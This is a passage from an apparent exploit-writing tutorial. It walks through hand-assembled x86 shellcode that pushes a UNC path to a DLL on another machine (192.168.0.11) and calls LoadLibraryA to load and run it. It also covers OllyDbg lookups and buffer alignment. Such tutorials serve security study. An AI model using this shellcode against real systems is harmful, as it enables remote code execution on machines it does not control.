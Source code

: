 We pre-pend each with a PUSH instruction and add the null byte instruction (`PUSH ESI`) to the start. We also need to save the location of this string onto the stack, so we end with a `PUSH ESP` instruction:
```
56
686c6c2020
685c732e64
6831315c73
68382e302e
68322e3136
685c5c3139
54
```
Next up, we retrieve the address for the LoadLibraryA function call from kernel32. In OllyDbg we do this by right-clicking in the disassembler window and selecting 'Search For > Name in all modules'. Find the Export from kernel32, which in our case (on Vista) is located at `77E29A9E`:
![LoadLibraryA](/images/kernel32-export.png)

With the location of our string saved onto the stack and the null byte terminator in place, we now just need to load the address of LoadLibraryA into `EAX` and `CALL EAX`:
```
56
686c6c2020
685c732e64
6831315c73
68382e302e
68322e3136
685c5c3139
54
B89E9AE277 //mov eax,77E29A9E
FFD0 //call eax
```
We also move ESP out of the way since it's quite close to our shellcode, meaning it's likely something will get overwritten and break our execution.
On top of that, we also keep two `A`s at the top to make sure our shellcode is nicely aligned to where we land in our buffer. 
